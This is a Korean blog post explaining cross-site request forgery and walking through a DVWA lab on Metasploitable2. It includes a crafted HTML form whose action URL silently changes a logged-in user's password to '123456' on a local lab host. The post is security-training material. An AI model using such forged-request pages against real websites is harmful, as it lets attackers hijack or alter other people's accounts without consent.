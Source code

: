 ```yaml
---
title:  "CSRF"
excerpt: ""

categories:
  # - security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```


#### CSRF (Cross Site Request Forgery : 교차 사이트 요청 위조)
* * *
- 공격 대상 : webserver
- Client의 권한을 이용해서 위조된 요청을 web server에 보내는 공격
- 대표적인 사례 : 자동 댓글달기, 좋아요 눌러지기, 비밀번호 변경, 회원 탈퇴 요청, 회원 승급 요청 등등
- 사용자들이 원하지 않았지만 스크립트의 소스 안에 공격자의 의도가 포함되어 있는 상태로 웹서버에 요청이 보내짐
- OWASP 2013년 버전에서는 8위였으나, 2017 버전에는 순위 밖으로 내려감(대응 방법이 많이 나와있어서 심각 수준이 내려감)

#### Metsploitable2 DVWA 실습
* * *
1. vwware-> metasploitable2 실행
2. web browser에서 metasploitable2의 아이피로 접근
3. dvwa 실행 admin / password
4. CSRF 탭에서 비밀번호 변경
![picture 12](../assets/images/20220517-092020.png)  
5. 개발자 도구에서 46~52 라인 확인
![picture 13](../assets/images/20220517-092404.png)  

```html
<form action="#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
6. 비밀번호 변경했을 때 주소를 복사해서 #에 다가 삽입

```html
<form action="http://192.168.5.128/dvwa/vulnerabilities/csrf/?password_current=password&password_new=123456&password_conf=123456&Change=Change#" method="GET">Current password:<br>
		<input type="password" AUTOCOMPLETE="off" name="password_current"><br>    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf">
    <br>
    <input type="submit" value="Change" name="Change">
</form>
```
7. 위 내용을 html 파일로 만들어서 실행.
![picture 14](../assets/images/20220517-093611.png)  
8. change를 누르면 비밀번호 변경되고, 로그인된 상태로 웹사이트로 진입
9. logout 하고 변경된 비밀번호로 로그인 되는지 확인